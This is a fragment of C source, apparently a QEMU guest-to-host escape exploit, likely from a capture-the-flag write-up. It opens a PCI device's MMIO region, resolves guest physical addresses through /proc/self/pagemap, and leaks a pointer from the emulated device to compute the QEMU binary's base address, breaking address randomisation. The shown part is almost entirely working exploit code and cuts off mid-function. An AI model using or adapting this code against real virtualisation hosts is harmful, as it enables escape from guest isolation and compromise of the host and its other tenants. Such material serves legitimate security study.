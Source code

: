```c  
}

void set_buff() {  
   mmio_write(0x00, 0);  
}

uint64_t gva2gpa(void *addr){  
   uint64_t page = 0;  
   int fd = open("/proc/self/pagemap", O_RDONLY);  
   if (fd < 0) {  
       fprintf(stderr, "[!] open error in gva2gpa\n");  
       exit(1);  
   }  
   lseek(fd, ((uint64_t)addr / PAGE_SIZE) * 8, SEEK_SET);  
   read(fd, &page, 8);  
   return ((page & 0x7fffffffffffff) * PAGE_SIZE) | ((uint64_t)addr & 0xfff);  
}

int main() {  
   int mmio_fd = open("/sys/devices/pci0000:00/0000:00:05.0/resource0", O_RDWR | O_SYNC);  
   if (mmio_fd == -1) {  
       fprintf(stderr, "[!] Cannot open /sys/devices/pci0000:00/0000:00:05.0/resource0\n");  
       exit(1);  
   }  
   mmio_mem = mmap(NULL, PAGE_SIZE * 4, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);  
   if (mmio_mem == MAP_FAILED) {  
       fprintf(stderr, "[!] mmio error\n");  
       exit(1);  
   }  
   printf("[*] mmio done\n");

   // Set huge page  
   system("sysctl vm.nr_hugepages=32");  
   system("cat /proc/meminfo | grep -i huge");

   char *buff;  
   uint64_t buff_gpa;  
   while (1) {  
       buff = mmap(0, 2 * PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_NONBLOCK, -1, 0);  
       if (buff < 0) {  
           fprintf(stderr, "[!] cannot mmap buff\n");  
           exit(1);  
       }  
       memset(buff, 0, 2 * PAGE_SIZE);  
       buff_gpa = gva2gpa(buff);  
       uint64_t buff_gpa_1000 = gva2gpa(buff + PAGE_SIZE);  
       if (buff_gpa + PAGE_SIZE == buff_gpa_1000) {  
           break;  
       }  
   }  
	printf("[*] buff virtual address = %p\n", buff);  
	printf("[*] buff physical address = %p\n", (void *)buff_gpa);

	set_src(buff_gpa);  
	set_off(0xf0);  
	get_buff();

	uint64_t progbase;  
	progbase = *(unsigned long long *)(buff+(0x2000-0xf0)+0x88) - 0x81dae0;  
	printf("[*] qemu binary program base = %p\n", (void *)progbase);

	uint64_t mariastate;  
```